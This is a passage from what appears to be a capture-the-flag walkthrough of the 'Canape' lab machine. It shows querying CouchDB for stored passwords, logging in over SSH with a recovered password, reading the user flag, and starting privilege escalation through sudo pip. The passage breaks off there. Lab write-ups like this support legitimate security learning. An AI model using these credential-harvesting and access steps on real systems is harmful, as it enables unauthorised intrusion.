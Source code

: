     www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
    {"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}



#### Further CouchDB Exploitation

There's 3 further ways to attack CouchDB, but since we just got SSH
keys, they aren't necessary for Canape. If you're interested, check out
the [Beyond Root - CouchDB](#couchdb-execution) section at the end.

### SSH as homer

#### Shell Access

That first password from the couchdb enumeration, `"item": "ssh"`, is
promising. We noticed in initial enumeration that SSH was running on
65535. We try to ssh as the only user on the box, homer, with the
password, "0B4jyA0xtytZi7esBNGp", and it works:



    root@kali# ssh -p 65535 homer@10.10.10.70
    homer@10.10.10.70's password:
    Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    Last login: Fri Apr 20 01:42:09 2018 from 10.10.15.168
    homer@canape:~$ id
    uid=1000(homer) gid=1000(homer) groups=1000(homer)



#### user.txt

On as homer, user.txt is now readable:



    homer@canape:~$ wc -c user.txt
    33 user.txt

    homer@canape:~$ cat user.txt
    bce91869...



## Privesc: homer --\> root

### sudo pip

homer can run pip with sudo:



    homer@canape:/dev/shm$ sudo -l
    Matching Defaults entries for homer on canape:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
